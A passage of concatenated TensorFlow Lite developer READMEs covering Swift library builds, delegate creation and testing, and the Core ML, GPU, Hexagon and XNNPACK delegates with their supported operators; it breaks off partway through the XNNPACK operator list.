Follow the prompts and when asked to build TensorFlow with iOS support, enter `y`.

### CocoaPods developers

Add the TensorFlow Lite pod to your `Podfile`:

```ruby
pod 'TensorFlowLiteSwift'
```

Then, run `pod install`.

In your Swift files, import the module:

```swift
import TensorFlowLite
```

### Bazel developers

In your `BUILD` file, add the `TensorFlowLite` dependency to your target:

```python
swift_library(
  deps = [
      "//tensorflow/lite/swift:TensorFlowLite",
  ],
)
```

In your Swift files, import the module:

```swift
import TensorFlowLite
```

Build the `TensorFlowLite` Swift library target:

```shell
bazel build tensorflow/lite/swift:TensorFlowLite
```

Build the `Tests` target:

```shell
bazel test tensorflow/lite/swift:Tests --swiftcopt=-enable-testing
```

Note: `--swiftcopt=-enable-testing` is required for optimized builds (`-c opt`).

#### Generate the Xcode project using Tulsi

Open the `//tensorflow/lite/swift/TensorFlowLite.tulsiproj` using
the [TulsiApp](https://github.com/bazelbuild/tulsi)
or by running the
[`generate_xcodeproj.sh`](https://github.com/bazelbuild/tulsi/blob/master/src/tools/generate_xcodeproj.sh)
script from the root `tensorflow` directory:

```shell
generate_xcodeproj.sh --genconfig tensorflow/lite/swift/TensorFlowLite.tulsiproj:TensorFlowLite --outputfolder ~/path/to/generated/TensorFlowLite.xcodeproj
```
# TensorFlow Lite Swift API Test App

The TensorFlow Lite Swift API usage can be found in various iOS example apps
provided in the following locations.

*   [TensorFlow Lite example apps](https://www.tensorflow.org/lite/examples)
*   [tensorflow/examples Repository](https://github.com/tensorflow/examples)
# Generating docs for TensorFlowLiteSwift

Documentation is generated via [Jazzy](https://github.com/realm/jazzy) (Googlers
see cr/363774564 for more details).

To browse the Swift reference documentation visit
https://www.tensorflow.org/lite/api_docs/swift.

This directory contains a dummy Xcode project for generating documentation for
TensorFlowLiteSwift via Jazzy, an open-source tool that hooks into Xcode's
build tooling to parse doc comments. Unfortunately, TensorFlowLiteSwift is not
primarily developed via xcodebuild, so the docs build can potentially become
decoupled from upstream TensorFlowLiteSwift development.

Known issues:
- Every new file added to TensorFlowLiteSwift's BUILD must also manually be
  added to this Xcode project.
- This project (and the resulting documentation) does not split types  by
  module, so there's no way to tell from looking at the generated documentation
  which modules must be included in order to access a specific type.
- The TensorFlowLiteC dependency is included in binary form, contributing
  significant bloat to the git repository since each binary contains unused
  architecture slices.

To generate documentation outside of Google, run jazzy as you would on any other
Swift module:

```
jazzy \
  --swift-build-tool xcodebuild \
  --module "TensorFlowLiteSwift" \
  --author "The TensorFlow Authors" \
  --sdk iphoneos \
```
When speaking of a TFLite delegate, how to create it and how to reuse existing
TFLite testing and tooling with the new delegate are two major challenging
issues. Here, we show a dummy delegate implementation to illustrate our
recommended approaches to address these issues.

## Delegate Creation

We recommend using
[SimpleDelegateInterface and SimpleDelegateKernelInterface](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/utils/simple_delegate.h).
We believe such APIs will make it easier to create a TFLite delegate. At a high
level, developers only need to focus on

* Whether a TFLite node in the graph is supported by the delegate or not.
* Given the set of supported nodes (i.e. a subgraph of the original model
graph), implement a delegate kernel that executes this set of nodes.

The dummy delegate implementation here is a good starting point to understand
the ideas above. For more sophisticated examples, refer to [Flex delegate](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/flex),
    [Hexagon delegate](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/hexagon).

## Testing & Tooling

There are currently **two options** to plug in a newly created TFLite delegate
to reuse existing TFLite kernel tests and tooling:

- Utilize the **[delegate registrar](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates)**
mechanism
- Utilize the
**[external delegate](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/external)**
mechanism.

The former approach requires few changes as detailed below. The latter one
requires even fewer changes and works with pre-built Tensorflow Lite tooling
binaries. However, it is less explicit and it might be more complicated to set
up in automated integration tests. Therefore, for better clarity, the
delegate-registrar approach is slightly preferred here.

We now describe each option above in more details in the following sections.

### Option 1: Utilize Delegate Registrar
In this approach, create a delegate provider like the
[`dummy_delegate_provider.cc`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/utils/dummy_delegate/dummy_delegate_provider.cc)
here, and then add it as an extra dependency when building the binary. Refer
[here](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates)
for more delegate provider examples. Now we look at using this provider for
testing and evaluation.

#### Kernel Tests
Tests referred here are defined in [tensorflow/lite/kernels](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/kernels).
They are based on the
 [test_util library](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/kernels/test_util.h)
 and the [testing main function stub](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/kernels/test_main.cc).

To plug in the newly created delegate and reuse these tests, simply add the
created delegate provider as an extra dependency to
[`test_util_delegate_providers`](https://github.com/tensorflow/tensorflow/blob/f09dc5cf6e7fde978f9891638f529cd52a3c878f/tensorflow/lite/kernels/BUILD#L203)
and remove others that are not relevant, like the following:

```
cc_library(
    name = "tflite_driver_delegate_providers",
    deps = [
        # Existing delegate providers that might be still relevant.
        ":dummy_delegate_provider",
    ],
    alwayslink = 1,
)
```

Then build a kernel test, and specify the commandline flags defined in the
delegate provider when executing the test. Take this case as an example,

```
bazel build -c opt tensorflow/lite/kernels:add_test

# Setting --use_dummy_delegate=true will apply the dummy delegate to the
# TFLite model graph
bazel-bin/tensorflow/lite/kernels/add_test --use_dummy_delegate=true
```

#### Benchmark and Task Evaluation Tools

In TFLite, we have developed
[model benchmark tool](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark)
and
[evaluation tools](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks)
that already have integrated existing various TFLite delegates. To reuse these
tools for the new delegate, similar to the kernel testing above, we simply add
the created delegate provider as an additional dependency when building the
binary. See rules in the
[BUILD](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/utils/BUILD)
file for details.

Take reusing the TFLite model benchmark tool as an example, after the delegate
provider is created, define the BUILD rule like the following:

```
cc_binary(
    name = "benchmark_model_plus_dummy_delegate",
    copts = tflite_copts(),
    linkopts = task_linkopts(),
    deps = [
        # Simply add the delegate provider as an extra dep.
        ":dummy_delegate_provider",
        "//tensorflow/lite/tools/benchmark:benchmark_model_main",
    ],
)
```

Now build the binary, and specify the commandline flags defined in this new
delegate provider and others detailed in the benchmark model tool
[doc](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/benchmark/README.md)
when running the benchmark tool like the following:

```
bazel build -c opt tensorflow/lite/delegates/utils/dummy_delegate:benchmark_model_plus_dummy_delegate

# Setting --use_dummy_delegate=true will apply the dummy delegate to the
# TFLite model graph.
bazel-bin/tensorflow/lite/delegates/utils/dummy_delegate/benchmark_model_plus_dummy_delegate --graph=/tmp/mobilenet-v2.tflite --use_dummy_delegate=true

```

### Option 2: Utilize Tensorflow Lite External Delegate
In this **alternative approach to reuse existing Tensorflow Lite kernel testing
and tooling**, we first create an external delegate adaptor like the [`external_delegate_adaptor.cc`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/utils/dummy_delegate/external_delegate_adaptor.cc) here, and create the corresponding BUILD target
to build a dynamic library.

Afterwards, one could build binaries or use pre-built ones to run with the
dummy delegate as long as the binary is linked with the
[`external_delegate_provider`](https://github.com/tensorflow/tensorflow/blob/8c6f2d55762f3fc94f98fdd8b3c5d59ee1276dba/tensorflow/lite/tools/delegates/BUILD#L145-L159)
library which supports command-line flags as described
[here](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/delegates#external-delegate-provider).
Note this external delegate provider has already been linked to existing testing
and tooling binaries.

For example, the following illustrates how to benchmark the dummy delegate here
via this external-delegate approach. We could use similar commands for testing
and evaluation tools.

```
bazel build -c opt tensorflow/lite/delegates/utils/dummy_delegate:dummy_external_delegate.so

# Copy the .so file to the directory that the external delegate will be loaded
# from at your choice.
cp bazel-bin/tensorflow/lite/delegates/utils/dummy_delegate/dummy_external_delegate.so /tmp

bazel build -c opt tensorflow/lite/tools/benchmark:benchmark_model

# Setting a non-empty --external_delegate_path value will trigger applying
# the external delegate during runtime.
bazel-bin/tensorflow/lite/tools/benchmark/benchmark_model \
  --graph=/tmp/mobilenet-v2.tflite \
  --external_delegate_path=/tmp/dummy_external_delegate.so \
  --external_delegate_options='error_during_init:true;error_during_prepare:true'
```

It is worth noting the *external delegate* is the corresponding C++
implementation of the *delegate* in Tensorflow Lite Python binding as shown
[here](https://github.com/tensorflow/tensorflow/blob/7145fc0e49be01ef6943f4df386ce38567e37797/tensorflow/lite/python/interpreter.py#L42).
Therefore, the dynamic external delegate adaptor library created here could be
directly used with Tensorflow Lite Python APIs.

More detailed guide on TFLite delegate is coming soon.
# Tensorflow Lite Core ML Delegate

TensorFlow Lite Core ML Delegate enables running TensorFlow Lite models on
[Core ML framework](https://developer.apple.com/documentation/coreml),
which results in faster model inference on iOS devices.

[TOC]

## Supported iOS versions and processors

* iOS 12 and later. In the older iOS versions, Core ML delegate will
  automatically fallback to CPU.
* When running on iPhone Xs and later, it will use Neural Engine for faster
  inference.

## Update code to use Core ML delegate

### Swift

Initialize TensorFlow Lite interpreter with Core ML delegate.

```swift
let coreMlDelegate = CoreMLDelegate()
let interpreter = try Interpreter(modelPath: modelPath,
                                  delegates: [coreMLDelegate])
```

### Objective-C++

#### Interpreter initialization

Include `coreml_delegate.h`.

```objectivec++
#include "tensorflow/lite/experimental/delegates/coreml/coreml_delegate.h"
```

Modify code following interpreter initialization to apply delegate.

```objectivec++
// initializer interpreter with model.
tflite::InterpreterBuilder(*model, resolver)(&interpreter);

// Add following section to use Core ML delegate.
TfLiteCoreMlDelegateOptions options = {};
delegate = TfLiteCoreMlDelegateCreate(&options);
interpreter->ModifyGraphWithDelegate(delegate);

// ...
```

#### Disposal

Add this code to the section where you dispose of the delegate (e.g. `dealloc`
of class).

```objectivec++
TfLiteCoreMlDelegateDelete(delegate);
```

## Supported ops

Following ops are supported by the Core ML delegate.

*   Add
    *   Only certain shapes are broadcastable. In Core ML tensor layout,
        following tensor shapes are broadcastable. `[B, C, H, W]`, `[B, C, 1,
        1]`, `[B, 1, H, W]`, `[B, 1, 1, 1]`.
*   AveragePool2D
*   Concat
*   Conv2D
    *   Weights and bias should be constant.
*   DepthwiseConv2D
    *   Weights and bias should be constant.
*   FullyConnected (aka Dense or InnerProduct)
    *   Weights and bias (if present) should be constant.
    *   Only supports single-batch case. Input dimensions should be 1, except
        the last dimension.
*   Hardswish
*   Logistic (aka Sigmoid)
*   MaxPool2D
*   MirrorPad
    *   Only 4D input with `REFLECT` mode is supported. Padding should be
        constant, and is only allowed for H and W dimensions.
*   Mul
    *   Only certain shapes are broadcastable. In Core ML tensor layout,
        following tensor shapes are broadcastable. `[B, C, H, W]`, `[B, C, 1,
        1]`, `[B, 1, H, W]`, `[B, 1, 1, 1]`.
*   Pad and PadV2
    *   Only 4D input is supported. Padding should be constant, and is only
        allowed for H and W dimensions.
*   Relu
*   ReluN1To1
*   Relu6
*   Reshape
    *   Only supported when target Core ML version is 2, not supported when
        targeting Core ML 3.
*   ResizeBilinear
*   SoftMax
*   Tanh
*   TransposeConv
    *   Weights should be constant.

## FAQ

* Does Core ML delegate support fallback to CPU if a graph contains unsupported
  ops?
  * Yes.
* Does Core ML delegate work on iOS Simulator?
  * Yes. The library includes x86 and x86_64 targets so it can run on
    a simulator, but you will not see performance boost over CPU.
* Does TensorFlow Lite and Core ML delegate support macOS?
  * TensorFlow Lite is only tested on iOS but not macOS.
* Are custom TF Lite ops supported?
  * No, CoreML delegate does not support custom ops and they will fallback to
    CPU.

## Appendix

### Core ML delegate Swift API

```swift
/// A delegate that uses the `Core ML` framework for performing
/// TensorFlow Lite graph operations.
///
/// - Important: This is an experimental interface that is subject to change.
public final class CoreMLDelegate: Delegate {
 /// The configuration options for the `CoreMLDelegate`.
 public let options: Options

 // Conformance to the `Delegate` protocol.
 public private(set) var cDelegate: CDelegate

 * /// Creates a new instance configured with the given `options`.
 ///
 /// - Parameters:
 ///   - options: Configurations for the delegate. The default is a new instance of
 ///       `CoreMLDelegate.Options` with the default configuration values.
 public init(options: Options = Options()) {
   self.options = options
   var delegateOptions = TfLiteCoreMlDelegateOptions()
   cDelegate = TfLiteCoreMlDelegateCreate(&delegateOptions)
 }

 deinit {
   TfLiteCoreMlDelegateDelete(cDelegate)
 }
}

extension CoreMLDelegate {
 /// Options for configuring the `CoreMLDelegate`.
 public struct Options: Equatable, Hashable {
   /// Creates a new instance with the default values.
   public init() {}
 }
}
```

### Core ML delegate C++ API

```c++
typedef struct {
 // We have dummy for now as we can't have empty struct in C.
 char dummy;
} TfLiteCoreMlDelegateOptions;

// Return a delegate that uses CoreML for ops execution.
// Must outlive the interpreter.
TfLiteDelegate* TfLiteCoreMlDelegateCreate(
   const TfLiteCoreMlDelegateOptions* options);

// Do any needed cleanup and delete 'delegate'.
void TfLiteCoreMlDelegateDelete(TfLiteDelegate* delegate);
```
# TFLite on GPU

TensorFlow Lite (TFLite) supports several hardware accelerators.  This document
describes how to use the GPU backend using the TFLite delegate APIs on Android
and iOS.

GPUs are designed to have high throughput for massively parallelizable
workloads.  Thus, they are well-suited for deep neural nets which consists of a
huge number of operators, each working on some input tensor(s) that can be
easily divided into smaller workloads and carried out in parallel, typically
resulting in lower latency.  In the best scenario, inference on the GPU may now
run fast enough and now become suitable for real-time applications if it was not
before.

GPUs do their computation with 16-bit or 32-bit floating point numbers and do
not require quantization for optimal performance unlike the CPUs.  If
quantization of your neural network was not an option due to lower accuracy
caused by lost precision, such concern can be discarded when running deep neural
net models on the GPU.

Another benefit that comes with GPU inference is its power efficiency.  GPUs
carry out the computations in a very efficient and optimized way, so that they
consume less power and generate less heat than when the same task is run on the
CPUs.

TFLite on GPU supports the following ops in 16-bit and 32-bit float precision:

* `ADD v1`
* `AVERAGE_POOL_2D v1`
* `CONCATENATION v1`
* `CONV_2D v1`
* `DEPTHWISE_CONV_2D v1-2`
* `EXP v1`
* `FULLY_CONNECTED v1`
* `LOGISTIC v1`
* `LSTM v2 (Basic LSTM only)`
* `MAX_POOL_2D v1`
* `MAXIMUM v1`
* `MINIMUM v1`
* `MUL v1`
* `PAD v1`
* `PRELU v1`
* `RELU v1`
* `RELU6 v1`
* `RESHAPE v1`
* `RESIZE_BILINEAR v1-3`
* `SOFTMAX v1`
* `STRIDED_SLICE v1`
* `SUB v1`
* `TRANSPOSE_CONV v1`

## Basic Usage

**Note:** Following section describes the example usage for Android GPU delegate
with C++. For other languages and platforms, please see
[the documentation](https://www.tensorflow.org/lite/performance/gpu).

Using TFLite on GPU is as simple as getting the GPU delegate via
`TfLiteGpuDelegateV2Create()` and then passing it to
`InterpreterBuilder::AddDelegate()`:

```c++
////////
// Set up InterpreterBuilder.
auto model = FlatBufferModel::BuildFromFile(model_path);
ops::builtin::BuiltinOpResolver op_resolver;
InterpreterBuilder interpreter_builder(*model, op_resolver);

////////
// NEW: Prepare GPU delegate.
auto* delegate = TfLiteGpuDelegateV2Create(/*default options=*/nullptr);
interpreter_builder.AddDelegate(delegate);

////////
// Set up Interpreter.
std::unique_ptr<Interpreter> interpreter;
if (interpreter_builder(&interpreter) != kTfLiteOk) return;

////////
// Run inference.
WriteToInputTensor(interpreter->typed_input_tensor<float>(0));
if (interpreter->Invoke() != kTfLiteOk) return;
ReadFromOutputTensor(interpreter->typed_output_tensor<float>(0));

////////
// Clean up.
TfLiteGpuDelegateV2Delete(delegate);
```

*IMPORTANT:* When calling `Interpreter::ModifyGraphWithDelegate()` or
`InterpreterBuilder::operator()` or
`Interpreter::Invoke()`, the caller must have a `EGLContext` in the current
thread and `Interpreter::Invoke()` must be called from the same `EGLContext`.
If such `EGLContext` does not exist, the delegate will internally create one,
but then the developer must ensure that `Interpreter::Invoke()` is always called
from the same thread `InterpreterBuilder::operator()` or
`Interpreter::ModifyGraphWithDelegate()` was called.

## Building and Runtime

TFLite GPU backend uses OpenGL ES 3.1 compute shaders or OpenCL.

```sh
bazel build --config android_arm64 //path/to/your:project
```

Metal shaders are used for iOS, which were introduced with iOS 8.  Thus,
compilation flags should look like:

```sh
bazel build --config ios_fat //path/to/your:project
```

## Advanced Usage: Delegate Options

There are GPU options that can be set and passed on to
`TfLiteGpuDelegateV2Create()`. When option is set to `nullptr` as shown in the
Basic Usage, it translates to:

```c++
const TfLiteGpuDelegateOptionsV2 kDefaultOptions =
    TfLiteGpuDelegateOptionsV2Default();
```

Similar for `TFLGpuDelegateCreate()`:

```c++
const TFLGpuDelegateOptions kDefaultOptions = {
  .allow_precision_loss = false,
  .wait_type = TFLGpuDelegateWaitTypePassive,
  .enable_quantization = false,
};
```

While it is convenient to just supply `nullptr`, it is recommended to explicitly
set the options to avoid any unexpected artifacts in case default values are
changed.

*IMPORTANT:* Note that the default option may not be the fastest. For faster
execution, you may want to set `allow_precision_loss` to `true` so that the GPU
performs FP16 calculation internally, and set `wait_type` to
`TFLGpuDelegateWaitTypeAggressive` to avoid GPU sleep mode.

## Tips and Tricks

* Some operations that are trivial on CPU side may be high cost in GPU land.
  One class of such operation is various forms of reshape operations (including
  `BATCH_TO_SPACE`, `SPACE_TO_BATCH`, `SPACE_TO_DEPTH`, etc.).  If those ops
  are inserted into the network just for the network architect's logical
  thinking, it is worth removing them for performance.

* On GPU, tensor data is sliced into 4-channels.  Thus, a computation on a
  tensor of shape `[B, H, W, 5]` will perform about the same on a tensor of
  shape `[B, H, W, 8]`, but significantly worse than `[B, H, W, 4]`.

* In that sense, if the camera hardware supports image frames in RGBA, feeding
  that 4-channel input is significantly faster as a memory copy (from 3-channel
  RGB to 4-channel RGBX) can be avoided.

* For performance [best practices](https://www.tensorflow.org/lite/performance/best_practices), do not hesitate to re-train your classifier with
  mobile-optimized network architecture.  That is a significant part of
  optimization for on-device inference.

## Publication

*   [On-Device Neural Net Inference with Mobile GPUs](https://arxiv.org/abs/1907.01989)
    *   Juhyun Lee, Nikolay Chirkov, Ekaterina Ignasheva, Yury Pisarchyk, Mogan
        Shieh, Fabio Riccardi, Raman Sarokin, Andrei Kulik, and Matthias
        Grundmann
    *   CVPR Workshop
        [Efficient Deep Learning for Computer Vision (ECV2019)](https://sites.google.com/corp/view/ecv2019)
### TFLite Delegate Feature Parity Testing

These tests ensure feature parity across TFLite GPU delegates. Every test
receives a simple automatically generated tflite model as an input. Model runs
with default tflite cpu interpreter and an delegated interpreter. Test succeeds
when output results for both interpretes match with the given accuracy.

.tflite models must be added to this folder before xcodeproj generation
# Hexagon Delegate

Delegate which uses Hexagon SDK to delegate the processing to QC DSP.
Note that we only support quantized models, since the DSP is efficient
with quantized versions. So all op support is for quantized versions.

For more detailed usage and examples check the [user guide.](https://www.tensorflow.org/lite/performance/hexagon_delegate)

Usage:

- Add dependency on hexagon_delegate rule.

- Code change example:

```
  #include "tensorflow/lite/delegates/hexagon/hexagon_delegate.h"

  // Assuming shared libraries are under "/data/local/tmp/"
  // If files are packaged with native lib in android App then it
  // will typically be equivalent to the path provided by
  // "getContext().getApplicationInfo().nativeLibraryDir"
  const char[] library_directory_path = "/data/local/tmp/";
  TfLiteHexagonInitWithPath(library_directory_path);  // Needed once at startup.
  ::tflite::TfLiteHexagonDelegateOptions params = {0};
  // 'delegate_ptr' Need to outlive the interpreter. For example,
  // If use case will need to resize input or anything that can trigger
  // re-applying delegates then 'delegate_ptr' need to outlive the interpreter.
  auto* delegate_ptr = ::tflite::TfLiteHexagonDelegateCreate(&params);
  Interpreter::TfLiteDelegatePtr delegate(delegate_ptr,
      [](TfLiteDelegate* delegate) {
        ::tflite::TfLiteHexagonDelegateDelete(delegate);
      });
  interpreter->ModifyGraphWithDelegate(delegate.get());
  TfLiteHexagonTearDown();  // Needed once at end of app/DSP usage.
```

* Shared libraries:
  - 'libhexagon_interface.so' which holds the interface that the delegate uses.
  It must be available if you linked the hexagon_delegate library to TFLite.
  You can load it either from shell by overriding
  LD_LIBRARY_PATH=$LD_LIBRARY_PATH:"path to the so",
  or add it inside your apk in a way it is available.
  - 'libhexagon_nn_skel(_v65/_v66).so' which holds the DSP code.
  Use TfLiteHexagonInitWithPath(..) and provide the path to the directory
  which holds the shared libraries for the Hexagon NN on device.
  If you're using TfLiteHexagonInit() then
  You will need to set environment variable "ADSP_LIBRARY_PATH" to
  "path_to_the_lib";/system/lib/rfsa/adsp;/system/vendor/lib/rfsa/adsp;/dsp
  Note that separator here is ';' not ':'
  You can push all 3 files, and the library will pick the one needed based
  on the runtime. Or if you are sure of what you will use on the device then
  push only one of them.


## Supported Ops

Hexagon only supports ops that have inputs/outputs of <= 4 dimensions.
The following operations have been implemented, with a few constraints that
are verified in `IsNodeSupportedByHexagon`:

* Add (Support relu activations)
* ArgMax
* ArgMin
* AveragePool2D:
  * Constraints:
    - No Activation
* Concat
* Conv2D:
  * Constraints:
    - stride width/height <= 3
* DepthToSpace
* DepthwiseConv2D:
  * Constraints:
      - Filter width == 3
      - depth_multiplier == 1
      - dilation only supported when stride == 1
      - Otherwise, stride height/width <= 3
* FullyConnected
* Hardswish
* L2Normalization (without any activation)
* Logistic (aka Sigmoid)
* Maximum
* MaxPool2D (without any activation) (b/129276536)
* Mean
* Minimum
* MirrorPad
* Mul (Support relu activations)
* Neg
* Pack
* Pad: Only supports 0 padding (b/139277813)
* Quantize (8-bit inputs & outputs only)
* Relu
* Relu6
* Reshape
* Resize Bilinear:
  * Constraints:
    - Requested size <= 65 (b/143105433)
* Resize Nearest Neighbor
* Rsqrt
* Slice
* SoftMax
* SpaceToDepth
* Split
* SquaredDifference
* Strided Slice
* Sub (Support relu activations)
* Tanh
* Transpose
* TransposeConv2D:
  * Constraints:
    - stride height/width <= 3
    - dilation height/width == 1
# Hexagon Delegate Testing

This directory contains unit-tests for Op Builders for the hexagon delegate.
To Run the all the tests use the run_tests.sh under directory and pass
the path to the directory containing libhexagon_nn_skel*.so files.
The script will copy all files to the device and build all tests and execute
them.

The test should stop if one of the tests failed.

Example:

Follow the [Instructions](https://www.tensorflow.org/lite/performance/hexagon_delegate)
and download the hexagon_nn_skel and extract the files.
For example if files are extracted in /tmp/hexagon_skel, the sample command.

`
bash tensorflow/lite/delegates/hexagon/builders/tests/run_tests.sh /tmp/hexagon_skel
`
# XNNPACK backend for TensorFlow Lite

XNNPACK is a highly optimized library of neural network inference operators for
ARM, x86, and WebAssembly architectures in Android, iOS, Windows, Linux, macOS,
and Emscripten environments. This document describes how to use the XNNPACK
library as an inference engine for TensorFlow Lite.

## Using XNNPACK engine with TensorFlow Lite interpreter

XNNPACK integrates with TensorFlow Lite interpreter through the delegation
mechanism. TensorFlow Lite supports several methods to enable XNNPACK
for floating-point inference.

### Enable XNNPACK via Java API on Android (recommended on Android)

Pre-built [nightly TensorFlow Lite binaries for Android](https://www.tensorflow.org/lite/guide/android#use_the_tensorflow_lite_aar_from_mavencentral)
include XNNPACK, albeit it is disabled by default. Use the `setUseXNNPACK`
method in `Interpreter.Options` class to enable it:

```java
Interpreter.Options interpreterOptions = new Interpreter.Options();
interpreterOptions.setUseXNNPACK(true);
Interpreter interpreter = new Interpreter(model, interpreterOptions);
```

### Enable XNNPACK via Swift/Objective-C API on iOS (recommended on iOS)

Pre-built [nightly TensorFlow Lite CocoaPods](https://www.tensorflow.org/lite/guide/ios#specifying_versions)
include XNNPACK, but do not enable it by default. Swift developers can use
`InterpreterOptions` object to enable XNNPACK:

```swift
var options = InterpreterOptions()
options.isXNNPackEnabled = true
var interpreter = try Interpreter(modelPath: "model/path", options: options)
```

Objective-C developers can enable XNNPACK via a new property in the
`TFLInterpreterOptions` class:

```objc
TFLInterpreterOptions *options = [[TFLInterpreterOptions alloc] init];
options.useXNNPACK = YES;
NSError *error;
TFLInterpreter *interpreter =
    [[TFLInterpreter alloc] initWithModelPath:@"model/path"
                                      options:options
                                        error:&error];
```

### Enable XNNPACK via Bazel build flags (recommended on desktop)

When building TensorFlow Lite with Bazel, add
`--define tflite_with_xnnpack=true`, and the TensorFlow Lite interpreter will
use XNNPACK engine by default.

The exact command depends on the target platform, e.g. for Android AAR you'd use

```
bazel build -c opt --fat_apk_cpu=x86,x86_64,arm64-v8a,armeabi-v7a \
  --host_crosstool_top=@bazel_tools//tools/cpp:toolchain \
  --define tflite_with_xnnpack=true \
  //tensorflow/lite/java:tensorflow-lite
```

Note that in this case `Interpreter::SetNumThreads` invocation does not take
effect on number of threads used by XNNPACK engine. In order to specify number
of threads available for XNNPACK engine you should manually pass the value when
constructing the interpreter. The snippet below illustrates this assuming you
are using `InterpreterBuilder` to construct the interpreter:

```c++
// Load model
tflite::Model* model;
...

// Construct the interprepter
tflite::ops::builtin::BuiltinOpResolver resolver;
std::unique_ptr<tflite::Interpreter> interpreter;

TfLiteStatus res = tflite::InterpreterBuilder(model, resolver, num_threads);
```

**XNNPACK engine used by TensorFlow Lite interpreter uses a single thread for
inference by default.**

### Enable XNNPACK via additional dependency

Another way to enable XNNPACK is to build and link the
`//tensorflow/lite:tflite_with_xnnpack` target into your application alongside
the TensorFlow Lite framework.

This method works on platforms which support POSIX-style weak symbols (Android,
iOS, Linux, Mac, but **NOT** Windows).

### Enable XNNPACK via low-level delegate API (not recommended)

While it is possible to use low-level delegate API to enable XNNPACK, this
method is **NOT RECOMMENDED** unless you need to use TensorFlow Lite both with
and without XNNPACK (e.g. for benchmarking).

With low-level delegate API users create an XNNPACK delegate with the
`TfLiteXNNPackDelegateCreate` function, and then call
`Interpreter::ModifyGraphWithDelegate` to delegate supported parts of
the model to the XNNPACK delegate. The users must destroy the delegate with
`TfLiteXNNPackDelegateDelete` **after** releasing the TensorFlow Lite
interpreter. The snippet below illustrates the typical usage:

```c++
// Build the interpreter
std::unique_ptr<tflite::Interpreter> interpreter;
...

// IMPORTANT: initialize options with TfLiteXNNPackDelegateOptionsDefault() for
// API-compatibility with future extensions of the TfLiteXNNPackDelegateOptions
// structure.
TfLiteXNNPackDelegateOptions xnnpack_options =
    TfLiteXNNPackDelegateOptionsDefault();
xnnpack_options.num_threads = num_threads;

TfLiteDelegate* xnnpack_delegate =
    TfLiteXNNPackDelegateCreate(&xnnpack_options);
if (interpreter->ModifyGraphWithDelegate(xnnpack_delegate) != kTfLiteOk) {
  // Report error and fall back to another delegate, or the default backend
}

...

// Run inference using XNNPACK
interpreter->Invoke()

...

// IMPORTANT: release the interpreter before destroying the delegate
interpreter.reset();
TfLiteXNNPackDelegateDelete(xnnpack_delegate);
```

## Limitations and supported operators

XNNPACK delegate is a work-in-progress, and currently supports a limited set of
operators. Unsupported operators will fall back to the default implementations,
so models using a combination of supported and unsupported operators can still
benefit from XNNPACK delegate.

### Floating-Point Operators

Below is the list of currently supported floating-point operators:

#### `ABS`

* Inputs and outputs must be in 32-bit floating-point format.

#### `ADD`

* Inputs and outputs must be in 32-bit floating-point format.
* Only addition with two inputs is supported.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `AVERAGE_POOL_2D`

* Inputs and outputs must be in 32-bit floating-point format.
* 1x1 pooling with non-unit stride is not supported.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `CEIL`

* Inputs and outputs must be in 32-bit floating-point format.

#### `CONV_2D`

* Inputs and outputs must be in 32-bit floating-point format.
* Bias is mandatory.
* Both filter and bias must be static (use `kTfLiteMmapRo` allocation type).
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `DEPTH_TO_SPACE`

* Inputs and outputs must be in 32-bit floating-point format.
* Block size must be greater than 1.

#### `DEPTHWISE_CONV_2D`

* Inputs and outputs must be in 32-bit floating-point format.
* Bias is mandatory.
* Both filter and bias must be static (use `kTfLiteMmapRo` allocation type).
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `DIV`

* Inputs and outputs must be in 32-bit floating-point format.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `ELU`

* Inputs and outputs must be in 32-bit floating-point format.

#### `FULLY_CONNECTED`

* Inputs and outputs must be in 32-bit floating-point format.
* Both filter and bias must be static (use `kTfLiteMmapRo` allocation type).
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `FLOOR`

* Inputs and outputs must be in 32-bit floating-point format.

#### `HARD_SWISH`

* Inputs and outputs must be in 32-bit floating-point format.

#### `LEAKY_RELU`

* Inputs and outputs must be in 32-bit floating-point format.

#### `LOGISTIC`

* Inputs and outputs must be in 32-bit floating-point format.

#### `MAX_POOL_2D`

* Inputs and outputs must be in 32-bit floating-point format.
* 1x1 pooling with non-unit stride is not supported.
* Fused `NONE`, `RELU`, `RELU_N1_TO_1`, and `RELU6` activations are supported,
  but fused `TANH` and `SIGN_BIT` activations are not.

#### `MAXIMUM`

* Inputs and outputs must be in 32-bit floating-point format.

#### `MEAN`

* The first input and the output must be 4D tensors in 32-bit
  floating-point format.
* The second input (the input with the axes specification) must be static
  (use `kTfLiteMmapRo` allocation type).
* Only [1, 2] or [2, 1] axes specification (i.e. reduction across spatial
  dimensions) is supported.
* Only `keep_dims = True` parameter value is supported.

#### `MINIMUM`

* Inputs and outputs must be in 32-bit floating-point format.

#### `MUL`

